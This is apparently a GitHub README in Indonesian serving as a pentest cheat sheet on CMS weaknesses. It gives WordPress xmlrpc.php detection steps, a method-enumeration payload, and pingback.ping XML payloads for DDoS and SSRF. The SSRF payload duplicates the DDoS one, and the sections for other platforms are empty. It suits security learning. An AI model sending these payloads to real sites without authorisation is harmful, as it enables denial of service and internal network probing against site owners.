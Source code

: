 # CMS (Content Management System)
## Definisi

Content Management System (CMS) adalah sebuah platform software yang yang memungkinkan pengguna untuk membangun dan mengelola situs web dengan pengetahuan dan sumber daya teknis yang terbatas. Ini memungkinkan pengguna untuk membuat, mengelola, dan memodifikasi konten di situs web dengan Graphic User Interface (GUI) yang membuat interaksi menjadi user friendly tanpa memerlukan pengetahuan teknis apa pun.

## Beberapa Platform yang **Mungkin** rentan akan CMS
1. Wordpress
2. Adobe Experience Manager
3. Drupal
4. Moodle

## Teknik Serangan pada platform Wordpress
Berikut merupakan beberapa *security misconfiguration* yang biasa terjadi pada platform Wordpress beserta *tools* yang bisa digunakan untuk mendeteksi terjadinya kerentanan tersebut. 

### Tool untuk deteksi
1. Wappalyzer
2. WhatRuns
3. BuildWith
4. WpScan

### xmlrpc.php
Ini merupakan kerentanan paling umum pada wordpress, cara mendeteksi kerentanan tersebut adalah sebagai berikut :
* kunjungi site dari siteyangdituju.com/xmlrpc.php
* Mendapatkan pesan error tentang *POST request only*

Kemudian berikut cara melakukan exploitnya:
* Lakukan *intercept* pada *request* dan ubah *method* GET ke POST
* Kemudian masukan payload ini saat POST untuk melihat semua *Method* yang bisa digunakan
    ```
    <methodCall>
    <methodName>system.listMethods</methodName>
    <params></params>
    </methodCall>
    ```
* Lihat apabila ada *method* ```pingback.ping``` pada list yang ditampilkan
* Jika ada *method* diatas maka bisa dilakukan DDoS dengan *payload* berikut:
    ```
    <methodCall>
    <methodName>pingback.ping</methodName>
    <params><param>
    <value><string>http://<IP SERVER ANDA>:<port></string></value>
    </param><param><value><string>http://<ALAMAT HOST YANG DIUJI></string>
    </value></param></params>
    </methodCall>
    ```
* Selain itu juga bisa dilakukan serangan SSRF (Khusus untuk port internal) dengan payload berikut:
    ```
    <methodCall>
    <methodName>pingback.ping</methodName>
    <params><param>
    <value><string>http://<IP SERVER ANDA>:<port></string></value>
    </param><param><value><string>http://<ALAMAT HOST YANG DIUJI></string>
    </value></param></params>
    </methodCall>
    ```

## Teknik Serangan pada platform Adobe Experience Manager

## Teknik Serangan pada platform Drupal

## Teknik Serangan pada platform Moodle

## Author
**[rad1zly](https://github.com/rad1zly)**


